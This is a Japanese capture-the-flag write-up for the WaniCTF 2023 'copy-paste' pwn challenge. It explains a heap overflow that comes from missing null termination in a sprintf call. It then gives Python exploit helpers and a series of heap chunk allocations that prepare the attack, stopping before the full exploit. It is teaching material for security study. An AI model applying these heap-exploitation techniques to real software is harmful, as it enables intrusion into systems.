 # 脆弱性
paste関数の以下の部分が脆弱。createでは指定したサイズピッタリまでしか書き込めないがreadが使われているので **null terminateされない。** 以下の部分では"%s%s"で書き込んでいるのでlist[idx].ptrやcopied.ptrをnull terminateしなければheap overflowを起こせる。さらにsprintfは最後にnull byteを書き込むので**null byteを書き込める。**

```c: main.c
  sprintf(pasted.ptr, "%s%s", list[idx].ptr, copied.ptr);
```

# exploit

https://github.com/RI5255/ctf-writeups/tree/master/2023/wanictf/pwn-copy-paste

## 前準備
繰り返し使う処理を関数にしておく。
```python: exploit.py
def create(idx :int, size :hex, data: bytes):
    io.sendlineafter(b'your choice: ', b'1')
    io.sendlineafter(b'index: ', str(idx).encode())
    io.sendlineafter(b'size (0-4096): ', str(size).encode())
    io.sendafter(b'Enter your content: ', data.ljust(size, b'\0'))

def show(idx :int):
    io.sendlineafter(b'your choice: ', b'2')
    io.sendlineafter(b'index: ', str(idx).encode())
    return io.recvline()

def copy(idx :int):
    io.sendlineafter(b'your choice: ', b'3')
    io.sendlineafter(b'index: ', str(idx).encode())

def paste(idx :int):
    io.sendlineafter(b'your choice: ', b'4')
    io.sendlineafter(b'index: ', str(idx).encode())

def delete(idx: int):
    io.sendlineafter(b'your choice: ', b'5')
    io.sendlineafter(b'index: ', str(idx).encode())

def ex():
    io.sendlineafter(b'your choice: ', b'6')
```
攻撃で使うchunkを確保しておく。
```python: exploit.py
create(0, 0x30 - 8, b'')            # A
create(1, 0x420 - 8, b'')           # B
create(2, 0x20 - 8, b'')            # C
create(3, 0x500 - 8, b'')           # D     
create(4, 0xc, b'e' * 0xc)          # E
create(5, 0xc, b'f' * 0xc)          # F
create(6, 0x10, b'g' * 0x10)        # G
create(7, 0x18, b'h' * 0x18)        # H
create(8, 0x440 - 8, b'')           # I
create(9, 0x400, b'j' * 0x400)      # J
create(10, 0x18, b'k' * 0x18)       # K
create(11, 0x20 - 8, b'')           # L
create(12, 0x20 - 8, b'')           # M
```


[^1]: https://zenn.dev/ri5255/articles/dfc517df9467cd#fsop-in-libc2.34